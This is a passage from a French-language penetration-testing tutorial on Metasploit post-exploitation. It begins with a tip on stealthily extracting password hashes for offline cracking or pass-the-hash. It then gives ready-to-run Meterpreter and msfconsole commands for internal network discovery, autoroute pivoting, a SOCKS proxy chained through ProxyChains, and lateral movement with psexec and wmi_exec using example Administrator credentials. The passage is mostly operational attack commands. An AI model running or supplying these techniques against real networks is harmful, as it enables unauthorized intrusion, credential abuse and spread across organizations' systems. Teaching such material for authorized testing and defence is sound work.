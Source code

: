 > **COMMENT ?**  
> L'extraction des hachages est souvent plus discrète que la recherche de mots de passe en clair. Vous pouvez ensuite tenter de casser ces hachages hors ligne ou les utiliser directement pour des attaques Pass-the-Hash.

### Énumération du réseau interne

```
# Découverte de réseaux
meterpreter > run post/multi/gather/ping_sweep RHOSTS=192.168.2.0/24

# Scan de ports interne
meterpreter > run post/windows/gather/arp_scanner RHOSTS=192.168.2.0/24

# Configuration du routage pour le pivoting
meterpreter > run autoroute -s 192.168.2.0/24
```

## Pivoting et mouvement latéral

### Configuration du pivoting

```
# Configuration manuelle des routes
meterpreter > run autoroute -s 192.168.2.0/24

# Vérification des routes
msf6 > route print

# Configuration d'un proxy SOCKS
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > run -j
```

Configuration de ProxyChains :
```bash
# Édition du fichier de configuration
echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf

# Utilisation avec d'autres outils
proxychains nmap -sT -Pn 192.168.2.100
```

### Techniques de mouvement latéral

```
# Utilisation de PsExec
msf6 > use exploit/windows/smb/psexec
msf6 exploit(windows/smb/psexec) > set RHOSTS 192.168.2.100
msf6 exploit(windows/smb/psexec) > set SMBUser Administrator
msf6 exploit(windows/smb/psexec) > set SMBPass P@ssw0rd123!
msf6 exploit(windows/smb/psexec) > exploit

# Utilisation de WMI
msf6 > use exploit/windows/wmi/wmi_exec
msf6 exploit(windows/wmi/wmi_exec) > set RHOSTS 192.168.2.100
msf6 exploit(windows/wmi/wmi_exec) > set USERNAME Administrator
msf6 exploit(windows/wmi/wmi_exec) > set PASSWORD P@ssw0rd123!
msf6 exploit(windows/wmi/wmi_exec) > exploit
```
